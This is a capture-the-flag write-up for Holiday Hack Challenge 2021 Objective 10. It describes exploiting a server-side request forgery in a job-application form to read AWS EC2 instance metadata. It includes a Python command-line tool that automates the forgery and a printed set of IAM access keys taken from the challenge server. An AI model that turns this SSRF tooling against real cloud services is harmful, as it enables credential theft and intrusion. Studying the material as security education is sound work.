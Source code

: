 # Solution

![Objective 10 description](img/hhc-2021-01.png)

Objective 10 asks us to retrieve the secret access key from the [Jack Frost Tower
job application server](https://apply.jackfrosttower.com/). Completing the IMDS
terminal gives us a hint to solving the objective: we need to access an [internal Amazon AWS
service](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
to obtain EC2 metadata. As we don't have direct access to the EC2 instance the job
application server is running on, there is likely an SSRF vulnerability on the website
where the web server will perform the request for us and return the data.

## Initial recon

Visiting the [job application page](https://apply.jackfrosttower.com/) gives us a simple
job application site:

![Jack Frost Tower Jobs](img/hhc-2021-02.png)

with a simple web form for submitting a job applicaton:

![Job Application web form](img/hhc-2021-03.png)

One thing stands out: there is a field in the form for a URL to a **Naughty List
Background Investigation (NLBI)** report. 

![NLBI field](img/hhc-2021-04.png)

If the web server uses the URL in the web form to request data, it may be possible
to abuse this field to request data that normally isn't available. 

## Exploiting the SSRF vulnerability

By using the 
techniques from the IMDS terminal and the data from the page referenced in the hint,
we can submit a request to the web server and see if it retrieves data from the internal
address of `http://169.254.169.254/latest/meta-data`:

![Fake submission](img/hhc-2021-05.png)

After submitting this, we get back a page with what appears to be a broken image:

![Successful submission](img/hhc-2021-06.png)

Viewing the source of the web page shows a link to `images/{name}.png`, with the
name we submitted in the form:

``` html linenums="77" hl_lines="4"
<div class="col-sm-4">
<div class="card text-white bg-secondary mb-3" style="max-width: 20rem;">
  <div class="card-body">
  <img class="rounded mx-auto d-block" src="images/pugpug.jpg" width="200px" />
  </div>
</div>
</div>
```

If we open a terminal and visit that URL with curl or wget, we see that the
file actually contains the data we requested from the internal AWS metadata service:

![AWS metadata](img/hhc-2021-07.png)

## Automating the SSRF

The objective can be easily completed with just a browser and curl, but as I'm 
diving deeper into the application than just the objective, I wrote a quick Python
script to provide a CLI for requesting URLs from the service. It's based on a
template I developed after reading [0xdf](https://twitter.com/0xdf_)'s
[blog](https://0xdf.gitlab.io/), specifically his use of Python's `Cmd` module
to generate an easy to use CLI.

(seriously, go follow `0xdf_` on twitter and read his blog, it's awesome)

We start with Python boilerplate, defining the payload necessary to fill the web
form to trigger the SSRF:

``` python
#!/usr/bin/env python3

import argparse
import cmd
import os
import requests
import random
import sys

# Generate a random name to avoid conflicts with others
name = 'pugpug{:03d}'.format(random.randint(1, 999))

# The payload, copied from ZAProxy
payload = {
    'inputName': name,
    'inputEmail': 'pug@pug.pug',
    'inputPhone': '313-555-1212',
    'inputField': 'Aggravated pulling of hair',
    'resumeFile': '',
    'additionalInformation': '',
    'submit': ''
}
```

The `fetch()` function submits the data to the web form, sending the passed
argument as the `inputWorkSample` field. It then requests the image file 
containing the data from the triggered SSRF, returning the request data.

``` python
# Send two requests to the web server: the application submission, then
# request the 'image', returning whatever we pull back.
#
# parser.url is the URL of the website, from argparse
def fetch(args):
    # Set the URL field to whatever is passed in the argument
    payload['inputWorkSample'] = args
    r = requests.get(parser.url, params = payload)
    r = requests.get(parser.url + f'images/{name}.jpg')
    return r.text
```

The heart of the program uses the [`Cmd`](https://docs.python.org/3/library/cmd.html)
module to generate a command-line interface. After some boilerplate code to set up
the class, the `default` function calls `fetch()` with what was entered on the 
command line, printing the result to the screen.

``` python
# The CLI module
class Term(cmd.Cmd):
    # Boilerplate to make the CLI more friendly.
    prompt = 'ssrf> '
    def emptyline(self):
        pass
    def postloop(self):
        print()
    def do_exit(self, args):
        return True
    def do_EOF(self, args):
        return True

    # Main cmd loop: fetch whatever is entered at the prompt via the SSRF on
    # the web server, and print the result.
    def default(self, args):
        print(fetch(args))
```

The main program accepts two optional arguments: `--url` allows one to specify
a different URL to interact with, while `--file` specifies a single URL to request,
without running the CLI. This is useful for saving larger requested URLs without
copy/pasting.

``` python
# Main program. The code accepts two arguments:
#
# --file: retrieve a single URL/file and print it. Useful for one-shot
#         file retrieval and storage 
#         (e.g. ssrf.py --file https://google.com > google)
#
# --url: the top-leve URL to send requests to. Will come in handy if we're
#        able to duplicate the website functionality locally

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('--file', dest='filename', 
            required=False, type=str, help='Filename to fetch')
    parser.add_argument('--url', dest='url', 
            default='https://apply.jackfrosttower.com/',
            required=False, help='Top-level URL')
    parser = parser.parse_args()

    if parser.filename:
        print(fetch(parser.filename))
    else:
        term = Term()
        term.cmdloop()
```

## Retrieving the objective data

With this script, we can easily request the current role associated with the instance
by querying 
`http://169.254.169.254/latest/meta-data/iam/security-credentials`, then use the
`role` returned to fetch the access keys:

![AWS credentials](img/hhc-2021-08.png)

``` json
{
        "Code": "Success",
        "LastUpdated": "2021-05-02T18:50:40Z",
        "Type": "AWS-HMAC",
        "AccessKeyId": "AKIA5HMBSK1SYXYTOXX6",
        "SecretAccessKey": "CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX",
        "Token": "NR9Sz/7fzxwIgv7URgHRAckJK0JKbXoNBcy032XeVPqP8/tWiR/KVSdK8FTPfZWbxQ==",
        "Expiration": "2026-05-02T18:50:40Z"
}
```
